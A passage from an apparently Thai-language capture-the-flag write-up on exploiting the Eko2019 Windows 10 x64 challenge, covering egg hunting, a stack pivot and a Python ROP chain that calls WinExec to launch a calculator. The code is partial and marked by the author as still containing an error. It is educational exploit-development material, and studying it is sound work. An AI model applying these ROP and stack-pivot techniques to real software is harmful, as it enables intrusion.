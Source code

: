     วิธีการก็เหมือนกันการที่เราทำ Egg hunting ใน Shellcode เลยแต่เราเปลี่ยนมาทำใน Exploit เราแทน โดยเราจะแปะ egg ไว้หน้า Payload ของเราและทำการ Loop ไปใน Range ของ StackBase และ StackLimit จนกว่าจะเจอ egg ซึ่งเมื่อเจอเราก็สามารถคำนวนตำแหน่งต่าง ๆ ของ Payload เราได้

5. **Trigger Buffer Overflow ด้วย Stack Pivot**

    เราใช้ Gadget `0x51` ในการ Trigger Buffer Overflow ซึ่งจะทำการ Push ค่า RCX ลงไปใน Stack และทำการ ret นั้นหมายความว่าเราสามารถควบคุม RIP ได้จาก Gadget นี้
    ปกติเวลาเราทำ Buffer Overflow เนี่ยเราจะทำการ Input ให้เยอะกว่า Buffer แล้วให้ค่ามันไปทับที่ Ret Address

    ![Eko2019%20Windows%2010%20x64%20Info%20Leak%20ASLR%20Bypass%20ROP%208f352c82d95141f6a0199e38207ab15b/Untitled%209.png](Eko2019%20Windows%2010%20x64%20Info%20Leak%20ASLR%20Bypass%20ROP%208f352c82d95141f6a0199e38207ab15b/Untitled%209.png)

    เอารูปมาจากสไลด์สมัยฝึกงานที่ Secure-D ใช้คุ้มจัด :P

    แต่ครั้งนี้เราไม่สามรถทำแบบนั้นได้ เพราะโปรแกรมจะ Crash และอีกอย่างคือเราสามารถ Input ได้แค่ 8 Bytes (จาก push rcx)

    สิ่งที่เราทำคือเราทำการเพิ่มค่า `rsp` ขึ้นมาแทนโดยใช้ Gadget นี้ 

    ```python
    # 0x14000158c: add esp, 0x78 ; ret  ;  (1 found) eko2019.exe
    ```

    เพราะว่าก่อนที่เราจะ `ret` เนี่ย `rsp` ของเราอยู่ห่างจากตำแหน่งของ msg_buf ที่ `0x68` Bytes เราต้องหา Gadget ที่เพิ่มค่าของ `rsp` ได้มากกว่า `0x68` Bytes (ถ้าลองไปอ่าน Writeup ของคนอื่นดูจะเห็นว่าแทบทุกคนใน Gadget นี้ เพราะใน Eko2019.exe มี Gadget นี้ตัวเดียวจริง ๆ ที่ผ่านเงื่อนไข)

    ```
    						V------- RSP 
    ["A"*0x10]["XXXXX..."]
    ```

    จากนั้นเราทำการ ROP เพื่อเปิดเครื่องคิดเลข

    ```python
    pop_rcx = p64(kernel32+0x27803)
    xor_rax_rax = p64(ImageBaseAddress+0x8c41)
    pop_rdx = p64(kernel32+0x1c450)
    calc_addr = p64(u64(msg_buf_addr)+0x38)
    pop_rsp = p64(ImageBaseAddress+0x1fd7)
    add_esp_0x78 = p64(ImageBaseAddress+0x158c)
    add_esp_0x58 = p64(ImageBaseAddress+0x1164)
    add_esp_0x28 = p64(ImageBaseAddress+0x160c)
    add_esp_0x10 = p64(ImageBaseAddress+0x8789)
    add_esp_0x38 = p64(ImageBaseAddress+0x2e71)

    s = connect()
    s.send(craft_header())

    msg = b"\x00\x00\x00\x00\x00\x00\x00\x00" # pop the calc
    msg += b"\x00"*8

    # R O P 🤟😎🤟 
    msg += pop_rcx
    msg += calc_addr
    msg += xor_rax_rax
    msg += pop_rdx
    msg += p64(1)
    # msg += b"B"*(0x8)
    msg += b"\x63\x61\x6c\x63\x00\x00\x00\x00"
    msg += b"A"*(0x38-0x8) # Alignment for add rsp, 0x38
    msg += p64(winExec) # Error here <-------- Need Fix by debug before function exe